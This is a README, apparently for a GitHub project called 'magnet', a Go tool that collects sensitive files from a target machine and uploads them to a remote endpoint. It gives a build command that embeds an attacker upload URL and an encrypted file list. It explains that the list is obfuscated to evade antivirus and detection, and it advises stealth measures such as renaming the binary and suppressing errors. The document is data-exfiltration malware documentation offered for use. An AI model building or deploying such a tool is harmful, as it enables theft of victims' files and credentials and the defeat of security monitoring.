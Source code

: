 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  <strong>Grab interesting files from remote</strong><br>
  All the job is done at compilation time</pre>
</div>



## Usage

**At compilation time** you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

So the compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=thisismykey 
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

### Obfuscation/Encryption

As you can see, it uses <code>linux_juicy_files_<b>obfuscated.txt</b></code>. To avoid detection system, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
./list_obfuscator $KEY [FILE]
```

### Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario
  * rename `magnet` executable

## To do

* Include a fake payload that will also be run to fake an attacking scenario (example update, etc)
* Handle directories
